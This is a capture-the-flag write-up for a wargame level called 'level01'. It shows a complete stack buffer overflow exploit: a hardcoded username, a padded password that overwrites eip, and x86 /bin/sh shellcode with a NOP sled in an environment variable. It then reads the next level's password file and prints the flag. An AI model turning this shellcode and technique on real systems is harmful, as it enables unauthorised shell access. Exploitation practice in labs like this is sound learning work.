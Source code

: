 ( echo "dat_wil" ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; echo "cat /home/users/level02/.pass" ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01

PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv


# level01

The executable prompts for a username and a password. A wrong username kicks us out, but no matter the password, nothing interesting happens.

We want to input the correct password, and then exploit the password prompt to overwrite `eip` and point to a shellcode. We'll store the shellcode in an env variable.

## **The shellcode**

We reuse our trusty shellcode and check it in `GDB` with :

```
env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') gdb level01
```

Our nopesled spans from `0xffffddae` to `0xffffdfae`, so we target the middle `0xffffdeae`.

## **The address**

First, we must pass the correct username (`dat_wil`) to the executable by passing `echo "dat_wil"` to `stdin`.

Now, we can look for `eip` in GDB. Simply enough, we find we can overwrite the register with `84 bytes`. Our "password" will be `80 bytes` of garbage, and `4 bytes` for the address of our nopesled, `0xffffdeae`.

## **The command**

We must pass the correct username (`dat_wil`) to the executable before spoofing `eip`.

Stringing everything together we try the following command :

```
( echo "dat_wil" ; python -c 'print("A" * 80 + "\xae\xde\xff\xff")' ; cat ) | env -i SHELLCODE=$(python -c 'print("\x90" * 512 + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh")') ./level01
```

## **The flag**

It works ! In the interactive shell, we run :

```
cat /home/users/level02/.pass
```

We get the flag for `level00` :

```
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```